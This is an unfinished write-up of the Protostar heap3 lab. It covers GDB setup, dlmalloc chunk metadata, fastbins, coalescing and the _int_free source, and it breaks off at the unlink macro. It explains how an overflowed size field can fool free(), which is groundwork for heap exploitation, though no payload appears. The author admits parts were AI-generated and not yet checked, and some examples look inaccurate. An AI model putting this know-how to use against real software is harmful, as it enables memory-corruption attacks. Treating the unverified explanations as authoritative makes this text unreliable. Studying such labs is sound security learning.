


# dlmalloc Heap Exploitation pt. 1

This is the last level heap explotation challenge from [protostar heap3](https://exploit.education/protostar/heap-three/). It is the hardest level atleast for me because we are dealing with the `malloc` algorithm itself. We need to take a slight look at the `malloc` source code that is from 20+ years ago to figure out how the `free()` works. So in this long article, I will try to gather from several writeups/info in order to explain the concept clearly. I will start from analysing each `malloc`, `strcpy`, `free` call in GDB, see how those functions fill the heap memory. Second, there will be a deep dive explanation about the heaps, heap chunk, heap data, merging heap chunk, how the `free` function worked in the background. Lastly will be closed with the exploitation of heap algorithm itself.

Note that this writeup still need to be developed. Some idea/answer were still generated by AI which need to be investigated further, and at the end I realized using that technology, compiling this document became more complex. Nevertheless, some were from realiable resources, it's mainly from LiveOverflow, and some of his talk I just copied it directly here.


## Setting up GDB

Add breakpoints for each `malloc` `0x8048ff2`, `strcpy` `0x8048750`, `free` `0x8049824`, `puts` `0x8048790` calls
```bash
set disassembly-flavor intel
b *0x8048ff2
b *0x8048750
b *0x8049824
b *0x8048790

or
b *main+16
b *main+32
b *main+48
b *main+76
b *main+100
b *main+124
b *main+136
b *main+148
b *main+160
b *main+172
```

After the first breakpoint or first malloc call, we can do `info proc map` to see where does the heap located, and make a "hook-stop":
```bash
define hook-stop
x/56wx 0x804c000
x/2i $eip
end
```

## First `malloc` call


## Second `malloc` call


## Third `malloc` call


## Last `strcpy` call
Our command line arguments need to be three, and we will try give 8 bytes for each `argv`s. 
```bash
(gdb) r AAAABBBB CCCCDDDD EEEEFFFF
```

We can just jump into the last `strcpy` call


## Last `free` call

Same as `free` call, we can just jump into the last `free` call:


1. First we free the `c`, and it got replaced with `0x00000000`.
2. Second we free the `b`, and it got replaced with `0x0804c050` which is just a pointer that points to that address.
3. Third we free the `a`, and it got replaced with `0x0804c028` which is just a pointer that points to that address.
4. This term is important because we will use and explaint it more later, so those small chunks (`0x0804c008,0x0804c00c,0x0804c030,0x0804c034,0x0804c058,0x0804c05c`), are considered as "fastbins"

The question is why such things like that happen? Why it got replaced with pointer when we were freeing some heap memory allocated? So after this simple GDB exploration from now on we will take a look deeper inside of the `malloc` and `free` algorithm it self.


## Heap Chunk Explanation In Detail

We are looking at the metadata of heap chunks managed by `glibc`'s memory allocator (`ptmalloc`). When memory is allocated or freed on the heap, `glibc` keeps track of each memory chunk using a structure that contains information about its size, status, and linkage to other chunks. The **three Least Significant Bits (later: LSB)** of the `size` field have special meanings, rather than being part of the actual size:

1. **PREV_INUSE (0x1)**: The lowest LSB indicates whether the **previous chunk** is in use.
2. **IS_MMAPPED (0x2)**: The second LSB indicates if the chunk is memory-mapped (`mmap`-ed).
3. **NON_MAIN_ARENA (0x4)**: The third LSB is generally unused in standard heap allocations, but it indicates if the chunk belongs to a thread-specific heap arena in multi-threaded applications.

Let’s break down what each of these bits represents in more detail:

### Chunk Size Field and Its Special Attributes

In `glibc`'s heap management, each chunk of memory has a `size` field that contains the size of the chunk, including the metadata. However, since the allocator aligns chunks to 8-byte boundaries (on 32-bit systems) or 16-byte boundaries (on 64-bit systems), the lower three bits of the `size` field are always zero for actual size calculations. These three bits are repurposed to store metadata attributes:

#### 1. **PREV_INUSE (0x1)**
- **Purpose**: Indicates whether the **previous chunk** is currently allocated (in use) or not.
- **Value**: `0x1` when the previous chunk **is in use**, `0x0` when it **is free**.
- **Usage**: This is critical for heap management because **if the previous chunk is free, the allocator needs to coalesce (merge) adjacent free chunks into a single larger chunk to reduce fragmentation**.
- **Example**: If the `size` field of a chunk is `0x21`, this means the actual size is `0x20` (32 bytes), and the `PREV_INUSE` bit is set (`0x1`). This tells the allocator that the previous chunk is **allocated**.

#### 2. **IS_MMAPPED (0x2)**
- **Purpose**: Indicates that the chunk is allocated using `mmap` rather than the usual heap `malloc` mechanism.
- **Value**: `0x2` if the chunk is `mmap`-ed, `0x0` otherwise.
- **Usage**: `mmap` is used for large memory allocations (typically more than 128 KB) and is managed differently from regular `malloc` chunks. These chunks are not part of the heap but have their own memory pages.
- **Example**: If the `size` field of a chunk is `0x42`, this means the actual size is `0x40` (64 bytes), and the `IS_MMAPPED` bit is set (`0x2`). This tells the allocator that the chunk is managed via `mmap`.

#### 3. **NON_MAIN_ARENA (0x4)**
- **Purpose**: Indicates that the chunk belongs to a non-main arena. This is relevant in multi-threaded programs where each thread can have its own heap arena.
- **Value**: `0x4` if the chunk belongs to a non-main arena, `0x0` otherwise.
- **Usage**: In multi-threaded environments, different arenas prevent contention on a single heap lock by providing each thread with its own arena. This bit helps the allocator determine which arena the chunk belongs to.
- **Example**: If the `size` field of a chunk is `0x85`, this means the actual size is `0x80` (128 bytes), and both the `PREV_INUSE` and `NON_MAIN_ARENA` bits are set (`0x5`). This tells the allocator that the previous chunk is in use, and the current chunk is part of a non-main arena.

### Practical Example of `size` Field Manipulation

Consider the following example to illustrate how these bits are set:

- **Chunk A (allocated)**:
  - `size = 0x21`
  - **Explanation**: The actual size of the chunk is `0x20` (32 bytes), and the `PREV_INUSE` bit (`0x1`) is set, indicating that the previous chunk is in use.

- **Chunk B (free)**:
  - `size = 0x30`
  - **Explanation**: The actual size of the chunk is `0x30` (48 bytes), and the lower three bits are `0`. This indicates that the previous chunk is free.

- **Chunk C (allocated with `mmap`)**:
  - `size = 0x102`
  - **Explanation**: The actual size of the chunk is `0x100` (256 bytes), and the `IS_MMAPPED` bit (`0x2`) is set, indicating that this chunk was allocated with `mmap`.

### Importance in Heap Exploitation

These bits play a crucial role in heap exploitation:

1. **PREV_INUSE Bit**: Attackers may attempt to manipulate this bit to trick the allocator into coalescing chunks incorrectly, potentially leading to a memory corruption or control hijacking situation.

2. **IS_MMAPPED Bit**: While usually not directly exploitable in typical heap exploitation scenarios, understanding its presence helps identify large allocations that are handled differently.

3. **NON_MAIN_ARENA Bit**: Understanding this bit is essential in multi-threaded programs where arena management might differ, but it is more relevant in advanced heap exploits.

So, the lower three bits of the chunk size field in `glibc`'s memory allocator (`ptmalloc`) have special meanings:
- `PREV_INUSE`: Indicates if the previous chunk is in use.
- `IS_MMAPPED`: Indicates if the chunk is allocated via `mmap`.
- `NON_MAIN_ARENA`: Indicates if the chunk belongs to a non-main heap arena.

These bits are crucial for efficient heap management and have important implications in the context of heap exploitation techniques.

### A Glimpse of `dlmalloc` Source Code
```c
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
};
```

> When you allocate a chunk of a certain size, the size of the chunk will be written to the 2nd word (`size=0x64`, first arrow) and malloc will return the address here (after the `size=0x64`, second arrow).

Here is our "heap data" (or "user data") located:


## When Calling `free()`

> a free chunk could contain more information. So once we free this chunk, we obviously can set the last bit of the chunk afterwards to 0. To indicate that the previous chunk is not in use anymore. ([see: LiveOverflow](https://youtu.be/HWhzH--89UQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&t=95))

Now maybe you're wondering why in our case the last bit was not set to zero? Here what [LiveOverflow](https://youtu.be/gL45bjQvZSU?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&t=287) said:

> You probably ask yourself why the last bit of the sizes, which indicate that the previous blocks are in-use didn’t get set to 0. It’s a bit confusing, but think like an algorithm for a second. In this case, they are small fast bins and we want to be super fast handling them. And how we freed blocks in this reverse order, it just doesn’t matter. It would be unnecessary wasted time to set that bit. Just imagining this pointer somewhere, which always points to the first free chunk. When I now want to malloc something and look for free space, I can then simply follow the linked list to find all free chunks and thus the information that a previous chunk is free is just irrelevant, right? But, It would also look a little bit different if the chunk sizes were bigger. Then malloc and free would clean up a little bit more and use more heap metadata for housekpeeing

So, basically based on what I can understand is if the chunk was small, then setting the first LSB `PREV_INUSE=0` are not necessary, **"they are small fast bins and we want to be super fast handling them...wasted time to set that bit"**

## Bins and Fastbins in `malloc`

In the context of the `malloc` implementation, **bins** and **fastbins** are data structures used to manage free memory chunks in the heap efficiently. They play a crucial role in the dynamic memory allocator's strategy to quickly allocate and deallocate memory, ensuring both speed and minimizing fragmentation.

### 1. **Bins:**

- **What is a Bin?**
  - A **bin** is a doubly-linked list that stores **free chunks** (i.e., blocks of memory that have been deallocated and are available for future allocations). Bins are organized based on the size of the chunks they hold.

- **Types of Bins:**
  - Bins are classified into different categories based on the size of chunks they manage:
    - **Fastbins**: For very small chunks.
    - **Smallbins**: For small chunks.
    - **Largebins**: For larger chunks.
  
- **Smallbins and Largebins:**
  - **Smallbins** are for chunks of sizes from 64 bytes to 512 bytes (on typical systems), and **largebins** are for chunks larger than that. These bins are sorted into size categories to speed up memory allocation requests.

- **Usage of Bins:**
  - When a chunk is freed, it is added to the appropriate bin based on its size. When memory is allocated, `malloc` searches the bin that matches the requested size. If it finds a free chunk, it is removed from the bin and returned to the caller.

### 2. **Fastbins:**

- **What is a Fastbin?**
  - **Fastbins** are a special type of bin that store **small chunks** (typically up to 64 bytes). They are designed to provide **fast allocation and deallocation** for frequently used small memory chunks.
  
- **Structure and Operation of Fastbins:**
  - Fastbins are implemented as **single-linked lists**, not doubly-linked like regular bins. This makes insertion and removal operations simpler and faster.
  - There is a separate fastbin for each small size (e.g., 16 bytes, 24 bytes, 32 bytes, etc.). When a small chunk is freed, it is placed in the corresponding fastbin.
  - The fastbins are not consolidated (i.e., coalesced) immediately with neighboring free chunks. This allows `malloc` to handle small allocations very quickly.

- **Allocation and Deallocation with Fastbins:**
  - When allocating a small chunk, `malloc` checks the corresponding fastbin first. If a chunk is available, it is quickly returned. If not, it falls back to checking the other bins.
  - When freeing a chunk, it is simply prepended to the corresponding fastbin list. This avoids the overhead of coalescing and merging, making the operation fast.

- **Limitation of Fastbins:**
  - Fastbins are not consolidated with neighboring free chunks upon deallocation to optimize speed. This can lead to **heap fragmentation**. Consolidation (coalescing adjacent free chunks into one larger chunk) happens later when chunks are removed from fastbins.

### How Fastbins and Bins Work Together

- **Memory Allocation Flow:**
  1. **Fast Path (Fastbins):** When requesting a small memory chunk, `malloc` first checks the fastbins. If a suitable chunk is found, it is used. This is the fastest path.
  2. **Slow Path (Smallbins and Largebins):** If no suitable chunk is found in fastbins, `malloc` checks the smallbins and largebins. If a chunk is found in the appropriate bin, it is removed and allocated.
  3. **System Call Fallback:** If no chunk is available in bins, `malloc` may request more memory from the operating system (using `sbrk` or `mmap`).

- **Freeing Memory Flow:**
  1. **Small Chunks:** If a small chunk is freed, it is added to the corresponding fastbin.
  2. **Larger Chunks:** If a larger chunk is freed, it is added to the appropriate smallbin or largebin and may be coalesced with adjacent free chunks to reduce fragmentation.

### Summary of Key Concepts

- **Fastbins:** Fast, single-linked lists for managing very small free chunks; optimized for quick allocation/deallocation but not immediately coalesced.
- **Smallbins and Largebins:** Doubly-linked lists for managing free chunks of small and large sizes; provide more organized memory management but involve more overhead.
- **Coalescing:** Combining adjacent free chunks into a larger chunk to reduce fragmentation. This is delayed for fastbins to optimize speed.

### Why Are Bins and Fastbins Important?

- **Performance Optimization:** They allow `malloc` to operate efficiently, handling both small frequent allocations (via fastbins) and larger allocations (via smallbins/largebins).
- **Heap Management:** Properly managing memory and fragmentation ensures the heap remains in a healthy state, reducing the chances of memory corruption vulnerabilities like **heap overflow**, **use-after-free**, and **double free**.

Understanding these concepts is vital for both optimizing software that heavily relies on dynamic memory allocation and for exploiting or defending against heap-based vulnerabilities in security research.

## Understanding the `fd` and `bk` pointers

After the last `free(a)` call in our program, we are examining the heap memory using GDB. The heap memory layout reflects how `malloc` and `free` manage memory chunks, especially when chunks are freed.

Again here is the memory layout after the last `free(a)`:


### Chunk Structure
Each chunk on the heap has a structure as illustrated below, here is what it's looks like when malloc is called:
```
    chunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: size of the previous chunk, in bytes (used   |
             | by dlmalloc only if this previous chunk is free)        |
             +---------------------------------------------------------+
             | size: size of the chunk (the number of bytes between    |
             | "chunk" and "nextchunk") and 2 bits status information  |
      mem -> +---------------------------------------------------------+
             | fd: not used by dlmalloc because "chunk" is allocated   |
             | (user data therefore starts here)                       |
             + - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
             | bk: not used by dlmalloc because "chunk" is allocated   |
             | (there may be user data here)                           |
             + - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
             |                                                         .
             .                                                         .
             . user data (may be 0 bytes long)                         .
             .                                                         .
             .                                                         |
nextchunk -> + + + + + + + + + + + + + + + + + + + + + + + + + + + + + +
             | prev_size: not used by dlmalloc because "chunk" is      |
             | allocated (may hold user data, to decrease wastage)     |
             +---------------------------------------------------------+
```

```
And free chunks look like this:
    chunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: may hold user data (indeed, since "chunk" is |
             | free, the previous chunk is necessarily allocated)      |
             +---------------------------------------------------------+
             | size: size of the chunk (the number of bytes between    |
             | "chunk" and "nextchunk") and 2 bits status information  |
      mem -> +---------------------------------------------------------+
             | fd: forward pointer to the next chunk in the circular   |
             | doubly-linked list (not to the next _physical_ chunk)   |
             +---------------------------------------------------------+
             | bk: back pointer to the previous chunk in the circular  |
             | doubly-linked list (not the previous _physical_ chunk)  |
             +---------------------------------------------------------+
             |                                                         .
             .                                                         .
             . unused space (may be 0 bytes long)                      .
             .                                                         .
             .                                                         |
nextchunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: size of "chunk", in bytes (used by dlmalloc  |
             | because this previous chunk is free)                    |
             +---------------------------------------------------------+
```

For a free chunk:
- `fd` (forward pointer) points to the next free chunk in the doubly linked list.
- `bk` (backward pointer) points to the previous free chunk in the doubly linked list.

### Analysis of the Memory Contents

1. **Chunk A (at `0x804c000`)**
   - **`0x804c000`:** `0x00000000` (possibly `prev_size` for a different context)
   - **`0x804c004`:** `0x00000029` (size of the chunk, 0x29 or 41 bytes)
   - **`0x804c008`:** `0x0804c028` (forward pointer `fd` pointing to the next free chunk at `0x804c028`)
   - **`0x804c00c`:** `0x42424242` ('BBBB' in ASCII, some data left in the chunk)

   This chunk is `a`, which was just freed. Its `fd` pointer (`0x0804c028`) points to the next free chunk `b`.

2. **Chunk B (at `0x804c028`)**
   - **`0x804c028`:** `0x0804c050` (forward pointer `fd` pointing to the next free chunk at `0x804c050`)
   - **`0x804c02c`:** `0x44444444` ('DDDD' in ASCII, some data left in the chunk)

   This is chunk `b`, which has been freed before chunk `a`. Its `fd` pointer points to chunk `c`.

3. **Chunk C (at `0x804c050`)**
   - **`0x804c050`:** `0x00000000` (`fd` pointer, set to `NULL` since it is the last chunk in the free list)
   - **`0x804c054`:** `0x46464646` ('FFFF' in ASCII, probably some data left in the chunk)

   This is chunk `c`, the first chunk to be freed. Since there are no more free chunks after this, its `fd` pointer is `0`.

### Conclusion: Understanding `fd` and `bk` in the Example

In our GDB examination:

1. **Address `0x804c008` (`fd` of chunk `a`) points to `0x0804c028` (`b`)**:
   - After freeing `a`, the allocator updates `a`'s `fd` to point to the next free chunk `b` (`0x0804c028`), creating a link in the free list.

2. **Address `0x804c030` (`fd` of chunk `b`) points to `0x0804c050` (`c`)**:
   - After freeing `b`, its `fd` pointer points to `c` (`0x0804c050`), the next free chunk.

3. **Address `0x804c058` (`fd` of chunk `c`) points to `0x0`**:
   - Since `c` is the last chunk in the list, its `fd` pointer is `NULL` (or `0`), indicating the end of the free list.

### Key Takeaway

The `fd` (forward) pointer helps the allocator manage a list of free chunks by linking each free chunk to the next one. The `bk` (backward) pointer would be used similarly to link to the previous chunk if needed, but in this case, the `bk` pointers are not shown or needed since we're looking only at the forward links. Understanding how these pointers work is crucial for heap exploitation, as manipulating them can allow for attacks such as arbitrary memory write or control flow hijacking.

---

> This is exactly what we witnessed when we freed our small 32 byte chunks. It updated the first pointer, the fd pointer. Which created the linked list.


```c
/* The maximum fastbin request size we support */
#define MAX_FAST_SIZE     80
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)) {
  set_fastchunks(av);
  fb = &(av->fastbins[fastbin_index(size)]);
  p->fd = *fb;
  *fb = p;
}
```
> So this means we just really want to make sure, that our size is greater than the maximum fastbin chunk size, which is defined as 80. Our chunk sizes are 32, so we wanna make sure that we overflow the size of the chunk we handle.

## Coalescing Chunks
> Once we `free()` the chunk, using `free(mem)`, some checks take place and the memory is released. If its neighbour blocks are free, too (checked using the `PREV_INUSE` flag), they will be merged to keep the number of reuseable blocks low, but their sizes as large as possible. If a merge is not possible, the next chunk is tagged with a cleared `PREV_INUSE` bit, and the chunk changes a bit:
> ```
>              +----------------------------------+
>     chunk -> | prev_size                        |
>              +----------------------------------+
>              | size                             |
>              +----------------------------------+
>       mem -> | fd                               |
>              +----------------------------------+
>              | bk                               |
>              +----------------------------------+
>              | (old memory, can be zero bytes)  |
>              :                                  :
> nextchunk -> | prev_size ...                    |
>              :                                  :
> ```
> You can see that there are two new values, where our data was previously stored (at the 'mem' pointer). Those two values, called `fd` and `bk` - forward and backward, that is, are pointers. They point into a double linked list of unconsolidated blocks of free memory. Every time a new free is issued, the list will be checked, and possibly unconsolidated blocks are merged. The whole memory gets defragmented from time to time to release some memory. 
> 
> Since the `malloc` size is always at least 8 bytes, there is enough space for both pointers. If there is old data remaining behind the `bk` pointer, it remains unused until it gets `malloc`'d again. (recited from: https://phrack.org/issues/57/9.html)


When the author say, **"If its neighbor blocks are free,"** it refers to the adjacent memory chunks on the heap — the **previous** and **next** chunks relative to the current chunk being freed — that may also be in a **free** state. If these neighboring chunks are also free, the memory allocator will attempt to **merge** (or **coalesce**) them to form a larger contiguous block of free memory. 

### Understanding Neighboring Chunks

On the heap, memory chunks are stored consecutively, one after another. When we free a chunk of memory using `free(ptr)`, the allocator checks the chunks that are directly **before** (previous) and **after** (next) the current chunk in memory to determine if they are also free. If either or both are free, the allocator will coalesce them into a single larger chunk to optimize memory usage.

### Why Coalescing is Important

1. **Reducing Fragmentation**: Coalescing helps to reduce **heap fragmentation** by combining smaller free chunks into larger ones. Fragmentation can cause inefficient memory usage because, although there is enough free memory overall, there may not be a single sufficiently large contiguous block to satisfy a new allocation request.
   
2. **Creating Larger Reusable Chunks**: Combining smaller chunks into larger chunks makes them more useful for future `malloc` requests that require a larger memory allocation.

### The Role of the `PREV_INUSE` Flag

Like we know alredy to determine whether the **previous** chunk is free, the allocator uses the **`PREV_INUSE`** flag, which is the least significant bit (LSB) of the current chunk's `size` field:

- **PREV_INUSE bit set (`1`)**: Indicates that the **previous** chunk is in use (allocated).
- **PREV_INUSE bit cleared (`0`)**: Indicates that the **previous** chunk is **free**.

### Scenario: Merging Neighboring Chunks

Here's how the process works:

1. **Freeing a Chunk**: When a chunk is freed using `free()`, the allocator checks the `PREV_INUSE` bit of the **current chunk** to determine if the **previous chunk** is also free.
   
2. **Check the Next Chunk**: It then checks the metadata of the **next chunk** to see if it is free. The `size` field of the next chunk can help determine this since free chunks contain pointers to the next and previous free chunks (used in the **free list**).

3. **Coalescing Chunks**:
   - **If both neighboring chunks are free**: The allocator merges the current chunk with both the previous and next chunks to form a larger chunk.
   - **If only one neighboring chunk is free**: The allocator merges the current chunk with that free chunk (either previous or next).
   - **If neither neighboring chunk is free**: The allocator does not merge the chunks and simply marks the current chunk as free.

4. **Update the `PREV_INUSE` Bit**:
   - **If the next chunk is not free**, the allocator **clears** the `PREV_INUSE` bit in the next chunk's `size` field. This indicates that the chunk **before it** is now free (since we've just freed it).

### Practical Example

TODO: include a picture illustrations

Let’s consider a more concrete example to visualize the process:

- **Initial Setup**:
  ```
  Chunk A: [allocated]
  Chunk B: [allocated]
  Chunk C: [allocated]
  ```

- **State after `free(B)`**:
  ```
  Chunk A: [allocated]
  Chunk B: [free]
  Chunk C: [allocated]
  ```
  - At this point, `Chunk B` is marked as free. Its `size` field is updated to reflect that `Chunk A` is allocated (`PREV_INUSE = 1`).

- **State after `free(A)`**:
  ```
  Chunk A: [free]
  Chunk B: [free]
  Chunk C: [allocated]
  ```
  - Now, `Chunk A` is freed. Since `Chunk B` is already free, the allocator will merge `Chunk A` and `Chunk B` into a single larger free chunk.

- **After Coalescing**:
  ```
  Merged Chunk (A+B): [free]
  Chunk C: [allocated]
  ```
  - The merged chunk combines the memory of `Chunk A` and `Chunk B`. The `size` field for this chunk will be the total size of `A` + `B`. The `PREV_INUSE` bit in `Chunk C`'s metadata is cleared, indicating that its previous chunk (now `A+B`) is free.

So when `free()` is called, if **neighboring chunks** (previous or next) are also **free**, the allocator merges them to create a larger contiguous block of free memory. This is checked using the **`PREV_INUSE`** bit and metadata of adjacent chunks. This merging process reduces fragmentation, improves memory management efficiency, and maintains larger reusable blocks of memory.

---

Here is another explanation, again from [see: LiveOverflow](https://youtu.be/HWhzH--89UQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&t=95):
> Now imagine there is a third chunk. A chunk after the 2nd one, which has it’s previous in use bit NOT set. This means the 2nd chunk is free. 


> Now the algorithm would like to merge, consolidate those two blocks.


> This is where the two words after the size start being important. They are the forward and backward pointer.


> Just as a sidenote, this only applies to chunks that are bigger than the fastbin size. Because fastbins are very small chunks and they don’t use a double linked list. So our chunks are bigger.
```c
/*
  Fastbins

    An array of lists holding recently freed small chunks.  Fastbins
    are not doubly linked.  It is faster to single-link them, and
    since chunks are never removed from the middles of these lists,
    double linking is not necessary. Also, unlike regular bins, they
    are not even processed in FIFO order (they use faster LIFO) since
    ordering doesn't much matter in the transient contexts in which
    fastbins are normally used.

    Chunks in fastbins keep their inuse bit set, so they cannot
    be consolidated with other free chunks. malloc_consolidate
    releases all chunks in fastbins and consolidates them with
    other free chunks.
*/

typedef struct malloc_chunk* mfastbinptr;

/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz)        ((((unsigned int)(sz)) >> 3) - 2)

/* The maximum fastbin request size we support */
#define MAX_FAST_SIZE     80

#define NFASTBINS  (fastbin_index(request2size(MAX_FAST_SIZE))+1)
```

## Reading The source code
Here is the particular code that we will analyse:
```c
void _int_free(mstate av, Void_t* mem) {
  mchunkptr       p;           /* chunk corresponding to mem */
  INTERNAL_SIZE_T size;        /* its size */
  mfastbinptr*    fb;          /* associated fastbin */
  mchunkptr       nextchunk;   /* next contiguous chunk */
  INTERNAL_SIZE_T nextsize;    /* its size */
  int             nextinuse;   /* true if nextchunk is used */
  INTERNAL_SIZE_T prevsize;    /* size of previous contiguous chunk */
  mchunkptr       bck;         /* misc temp for linking */
  mchunkptr       fwd;         /* misc temp for linking */


  /* free(0) has no effect */
  if (mem != 0) {
    p = mem2chunk(mem);
    size = chunksize(p);

    check_inuse_chunk(av, p);

    /* If eligible, place chunk on a fastbin so it can be found and used quickly in malloc. */

    if ( (unsigned long)(size) <= (unsigned long)(av->max_fast) ) {
      set_fastchunks(av);
      fb = &(av->fastbins[fastbin_index(size)]);
      p->fd = *fb;
      *fb = p;
    }

    /* Consolidate other non-mmapped chunks as they arrive. */
    else if (!chunk_is_mmapped(p)) {
      nextchunk = chunk_at_offset(p, size);
      nextsize = chunksize(nextchunk);
      assert(nextsize > 0);

      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(p, bck, fwd);
      }
      ...
    }
    ...
  }
}
```

> The function starts with the parameter `mem`, which is the address we want to free. 
```c
void _int_free(mstate av, Void_t* mem){...}
```

> Shortly afterwards `mem2chunk` is called which get the address two words ahead of `mem`, which is the true starting address of the chunk.

```c
#define chunk2mem(p)   ((Void_t*)((char*)(p) + 2*SIZE_SZ))
#define mem2chunk(mem) ((mchunkptr)((char*)(mem) - 2*SIZE_SZ))
void _int_free(mstate av, Void_t* mem){
  /* free(0) has no effect */
  if (mem != 0) {
    p = mem2chunk(mem);
    size = chunksize(p);

    check_inuse_chunk(av, p);
    ...
  }
  ...
}
```

> The first `if` (`size<=av->max_fast`) we reach contains only a little bit of code. And it refers to **fastbins**. This is exactly what we witnessed when we freed our small 32 byte chunks. It updated the first pointer, the `fd` pointer. Which created the (singly) linked list. But otherwise not much happens and thus it’s not interesting.


> So this means we just really want to make sure, that our size is greater than the maximum fastbin chunk size, which is defined as 80. 
```c
/* The maximum fastbin request size we support */
#define MAX_FAST_SIZE 80
```
> Our chunk sizes are 32, so we wanna make sure that we overflow the size of the chunk we handle.

> If we head into the `else if`, we arrive at an interesting comment: “Consolidate other non-mmaped chunks”. 
```c
void _int_free(mstate av, Void_t* mem) {
  ...
  if (mem != 0) {
    ...
    if ((unsigned long)(size) <= (unsigned long)(av->max_fast)) {...}

    /* Consolidate other non-mmapped chunks as they arrive. */ // <--- we are here
    else if (!chunk_is_mmapped(p)) {
      nextchunk = chunk_at_offset(p, size);
      nextsize = chunksize(nextchunk);
      assert(nextsize > 0);

      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(p, bck, fwd);
      }
      ...
    }
  }
}
```

> If we check what is necessary to pass this test `else if (!chunk_is_mmapped(p))`, we look at the `chunk_is_mmaped` macro which takes the size of `p`, which is the size of the current chunk, and checks the `IS_MMAPPPED` flag. Very similar to the `PREV_INUSE` bit, which is the last one, the `IS_MMAPPED` flag is the second last bit. So when we want to reach the code in here, we have to make sure that the 2nd last bit is not set.
```c
/* size field is or'ed with IS_MMAPPED if the chunk was obtained with mmap() */
#define IS_MMAPPED 0x2

/* check for mmap()'ed chunk */
#define chunk_is_mmapped(p) ((p)->size & IS_MMAPPED)
```

> Then we get the address of the next chunk `nextchunk`, which we can calculate based on the `size` of our current chunk. So with an overflow, the size is already something we can control, this means, that here we have a first opportunity to fool `free()` into thinking some other data is the next chunk:
```c
#define SIZE_BITS (PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)

/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))

/* Get size, ignoring use bits */
#define chunksize(p)         ((p)->size & ~(SIZE_BITS))

else if (!chunk_is_mmapped(p)) {
  nextchunk = chunk_at_offset(p, size);
  nextsize = chunksize(nextchunk);
}
```

> After that we have a check if the previous chunk is in use:
```c
/* size field is or'ed with PREV_INUSE when previous adjacent chunk in use */
#define PREV_INUSE 0x1

/* extract inuse bit of previous chunk */
#define prev_inuse(p) ((p)->size & PREV_INUSE)

/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = p->prev_size;
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  unlink(p, bck, fwd);
}
```
> If the previous chunk would not be in use, which is defined by the lowest bit set to 0, we would follow the `prev_size`, which we haven’t introduced yet, but it’s this word before our chunk size:


> And thus calculates the address of the previous chunk. Again, a value we possibly can control. Then we execute an `unlink`.


## The `unlink()` macro
```c
/* Take a chunk off a bin list */
